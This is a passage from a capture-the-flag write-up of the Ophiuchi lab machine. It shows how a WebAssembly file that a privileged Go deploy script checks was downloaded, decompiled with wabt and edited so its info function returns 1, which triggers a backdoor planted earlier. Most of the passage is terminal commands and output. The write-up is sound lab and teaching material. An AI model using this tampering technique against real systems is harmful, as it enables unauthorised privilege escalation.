 Unfortunately the program returned "Not ready to deploy", meaning that the **main.wasm** file returned an `info` value different then **1**.

Googling around about information on wasm files and how to work with them, a GitHub repository named **WebAssembly Binary Toolkit** ([wabt](https://github.com/WebAssembly/wabt)) showed up. The toolkit allowed to transform `.wasm` file into `.wat` (WebAssembly Text), edit them and then rebuild `.wat` into `.wasm` files. This allowed to create a **file that would have executed the deployment** and therefore the backdoor created previously.

To begin with, after installing wabt the wasm file was downloaded using `scp` and was decompiled to understand its functionality:

```bash
┌──(kali㉿kali)-[~/…/Ophiuchi/exploit/wabt/build]
└─$ scp admin@10.10.10.227:/home/admin/main.wasm ../../main.wasm
admin@10.10.10.227's password:
main.wasm

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm-decompile ../main.wasm -o ../main.dcmp

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ cat ../main.dcmp
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

Having understood how it works and figured out where to make the change that would allow the go script to be controlled, the wasm file was **transformed into wat**, it was **modified**, and it was **transformed back into wasm** again.

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm2wat ../main.wasm
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm2wat ../main.wasm -o ../main.wat
  
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ nano ../main.wat
...
(func $info (type 0) (result i32)
    i32.const 1)
...
```